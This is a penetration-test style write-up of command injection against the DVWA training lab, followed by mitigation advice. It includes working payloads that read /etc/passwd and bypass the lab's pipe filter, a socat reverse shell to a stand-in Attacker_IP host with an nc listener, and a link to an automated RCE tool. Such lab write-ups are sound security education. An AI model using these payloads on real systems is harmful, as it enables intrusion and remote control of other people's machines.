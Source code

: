# Command Injection Vulnerabilty and RCE in DVWA  

## Table of Contents
- [**Outline**](#section-0)
- [**Vulnerabiltiy Explanation**](#section-1)
- [ **Proof of Concept - Creating a Reverse Shell**](#section-2)
- [**Developing a Tool**](#section-3)
- [**Mitigating Command Injection Attacks**](#section-4)

## Outline {#section-0}
The goal of this write-up is to document and demonstrate various OS command injection attacks performed  against the  Damn Vulnerable Web Application (DVWA) input field. The objective of this attack was to gain unathorized access to the system as `www-data` service user.This report mocks a penetration testing report and a debriefing situation to a client.

## Vulnerabiltiy Explanation {#section-1}
A command injection vulnerability is a security flaw in a system that allows attackers to execute arbitrary commands on the host's operating system. This is a serious security flaw
as it allows attackers to gain unauthorized access, opening further attack vectors for the attacker. If the application/user has high privilege a compromised system could extend beyond the host system and impact the entire network or infrastructure.

| Information | Explanation                                                                      |
|-------------|----------------------------------------------------------------------------------|
| Name        | Command Injection                                                                |
| Severity    | High                                                                             |
| CVSS        | 8.4                                                                              |
| Path        | http://127.0.0.1/vulnerabilities/exec/

The base CVSS was calculated upon the following metrics.  
Attack Vector(AV):  Network (N)  The vulnerability can be exploited remotely over a network connection.    
Attack Complexity (AC): Low (L)  The vulnerability is straightforward and requires minimal or no specialized knowledge.  
Privileges Required (PR):  Low (L) The attacker requires some privileges. The user has to login to the DVWA webpage to conduct the exploit.  
User Interaction (UI):  None (N) The vulnerability can be exploited without any user interaction.  
Scope (S): Unchanged(S:U)  An exploit can only affect the specific system.  
Confidentiality Impact (C): Medium (M)  The vulnerability has a medium impact on the confidentiality of information.   
Integrity Impact (I): High (H) The vulnerability has a significant impact on the integrity of information.    
Availability Impact (A):  High (H) The vulnerability has a significant impact on the availability of the system or resource.    


## Proof of Concept {#section-2}
For the Proof of Concept (POC) in the `Security-Low-Level` module, the tester has manually discovered that the input field is vulnerable to command injection. By providing an IP address augmented with the `&&` operator and a preferred command, such as `/etc/passwd`, the tester  was able to view sensitive data from the system. The `&&` operator executes the first command and then proceeds to the next command, enabling the testers to execute any command.
```bash
127.0.0.1 && cat /etc/passwd 
``` 
![](/assets/cinject/exposed.gif)

The tester has also further discovered that the input field is vulnerable to other operators, such as `;`, `|`, `&` and `||`. This vulnerability exists primarily due to lack of input validation and sanitization. It can be seen from the source code that there is zero meaures to validate or sanitize user input. 
  ![](/assets/cinject/low.png)

For the `Security-Medium-Level` module, after some trial and error, the tester figured out that the input field was still vulnerable to the pip operator `|` and led to the same result as the above. There were some sanitization but was not extensive with the various operators, leaving the application largly vulnerable.
  ![](/assets/cinject/medium.png)

After some more trial and error with the `Security-High-Level` module, the tester has discovered that the `|` pipe operator was still vulnerable. Upon closer inspection of the source code, the tester identified a minor mistake in the sanitization of user input. Instead of replacing the pipe operator `|` with a blank string as intended , the developer mistakenly added a blank space within the operator `'| '`, which does not exactly target the pip operator as intended. Thus the code ` ('| ' => '')` resulted in inadequate sanitization of user input.

  ![](/assets/cinject/High.png)


## Establishing a Reverse Shell {#section-2}
To take steps further, the tester has made use of `socat`, a popular networking tool, to create a reverse TCP connection back to the testing machine establishing a reverse shell.  First the tester created a socat listener on the attacking machine and executed a socat reverse shell in the input field using the following commands.
```bash
nc -nlvp 1337
``` 
```bash
127.0.0.1|socat tcp-connect:Attacker_IP:1337 exec:bash
``` 
![](/assets/cinject/reverseShell.gif)

The tester was granted a full command-line interface shell, offering complete control over the compromised system. This provided the ability to execute commands and easily navigate the file system, opening up possibilities for potential privilege escalation and lateral movement within the internal network.

Initially, attempts to establish a reverse shell using `bash` and `netcat` were unsuccessful. However, through further trial and error using different networking tools such as `socat`, a successful reverse shell was achieved. This highlights the importance of persistence, experimentation, and utilizing a variety of tools during a penetration test.


## Developing a Python Tool {#section-3}
To streamline and automate the process, the tester has developed a Python script that scans for command injection vulnerabilities and, upon successful identification, proceeds to execute a Remote Code Execution (RCE). This approach simplifies the task and enhances efficiency in identifying and leveraging potential security weaknesses.
The script can be found here [Kwang Command Injection RCE Tool](https://github.com/Kwangyun/Web-Automation-Tools) \
![](/assets/cinject/myScript.gif)
The following is a code snippet of the script.
![](/assets/cinject/codesnipet.png)

## Mitigating Command Injection Attacks {#section-4}

Never call out to OS commands from application-layer code but use, built in functions and API's

### User Input Validation
User Input Validation involves verifying whether a user's input satisfies the conditions established by the developer. There are two primary approaches to input validation: the Blacklist-based approach and the Whitelist-based approach.  
#### Blacklist-based approach
The Blacklist-based approach entails checking whether the user input contains any characters present in a predefined blacklist. However, this method is susceptible to human error, as exemplified by the `Security-High-Level` module, and is therefore not recommended.
#### Whitelist-based approch
In contrast, the Whitelist-based approach checks input values against a predefined list of permitted values. In this approach, the application ensures that the input matches safe and expected values. For example, in this application, the developers could have verified that the user input is an alphanumeric string in the form of an IP address, consisting of four octets, without any additional syntax or whitespace.

## User Input Sanitization
Contrary to user input validation, user input sanitization  modifies or removes potentially harmful elements from the input data. The objective of input sanitization is to enhance the security and integrity of the application by neutralizing or eliminating any characters or patterns that could be exploited.
Filtering
Reference: [Grootboan Security](https://security.grootboan.com/)
            [PortSwigger](https://portswigger.net/web-security/os-command-injection)